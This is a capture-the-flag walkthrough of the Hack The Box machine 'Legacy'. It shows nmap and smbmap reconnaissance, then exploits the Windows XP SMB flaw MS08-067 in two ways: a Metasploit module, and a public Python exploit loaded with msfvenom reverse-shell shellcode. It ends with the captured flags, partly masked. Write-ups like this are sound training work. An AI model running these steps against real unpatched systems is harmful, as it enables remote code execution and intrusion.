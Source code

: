 ```yaml
---
layout: PostSimple
date: 2020-02-25
title:     "Hack The Box - Legacy"
tags: ['windows','easy','smb','ms08-067']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/1.png)

We are going to pwn Legacy from Hack The Box. Which is a windows box based on smb exploit and I have explained in two methods.

Link : <https://www.hackthebox.eu/home/machines/profile/2>


Lets Begin with our Initial Nmap Scan.

Nmap Scan Results:

```
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (90%), Microsoft Windows 2000 Server (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m32s, deviation: 1h24m50s, median: -4h58m32s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:1d:23 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-02-24T14:47:45+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## SMB:

Started with ``smbmap`` to check if there is any file.

```
root@w0lf# smbmap -H 10.10.10.4
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.4...
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
        Disk                                                    Permissions
        ----                                                    -----------
[!] Access Denied
```

I tried the nmap scripts to check for vulnerabilities. Since the OS is Windows XP there must be.

```
root@w0lf# nmap --script smb-vuln* -p 445 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-24 19:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.018s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```
So the box is vulnerable to SMB exploit ``ms08-067``

```
ms - Microsoft
08 - The year of the patch was released i.e 2008
067 - The patch number i.e 067
```
> https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi

## Method 1:

> use exploit/windows/smb/ms08_067_netapi

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/2.png)

By using this method we can get the root shell easily.

## Method 2 (Without Metasploit):

> https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

From the exploit, first we need to create shellcode with ``msfvenom``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/3.png)

```
-p This will connect back to me with a shell.
-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.
-f py - The output in python format.
-v shellcode - Specify a custom variable name to use for certain output formats
-a x86 and --platform windows - Describing the environment I’m attacking.
```


I created mine using the example.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/4.png)

I replaced my shellcode here 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/5.png)

So we need to enter OS version we already know its ``Windows XP`` so I used ``6``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/6.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/7.png)

Started my listener on background.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-legacy/8.png)


```
C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69....................
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993.....................
````


